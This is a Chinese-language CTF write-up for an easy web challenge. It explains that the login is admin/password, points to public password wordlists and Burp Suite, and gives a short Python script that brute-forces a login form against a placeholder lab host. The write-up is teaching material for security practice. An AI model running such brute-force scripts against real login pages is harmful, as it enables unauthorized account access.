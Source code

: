 # 艺术就是爆炸

- 作者：ksks
- 参考：-
- 难度：Trivial
- 分类：Web
- 镜像：[svuctf-helloworld-2023/crack](https://ghcr.io/svuctf/svuctf-helloworld-2023/crack)
- 端口：80

## 题目描述

## 题目解析

考点：爆破用户名密码

帐号根据提示已知 `admin`，密码是 `password`。

手动测试常用密码其实就可以，可以在网上搜索常用的密码（默认密码、弱密码）。

这里推荐两个仓库，它们收集了各用途的密码字典：

- [TheKingOfDuck/fuzzDicts](https://github.com/TheKingOfDuck/fuzzDicts)
- [danielmiessler/SecLists](https://github.com/danielmiessler/SecLists)

使用工具爆破也可以，搜索 `BurpSuite 爆破`，网上文章很多。

如果编写脚本的话，大概长这个样子：

```python
import requests

session = requests.session()
url = "http://IP:PORT/login"

with open("passwords.txt") as f:
    passwords = f.readlines()

for pwd in passwords:
    data = {"username": "admin", "password": pwd.rstrip()}
    resp = session.post(url, data=data)
    if "Wrong" not in resp.text:
        print(resp.text)
```
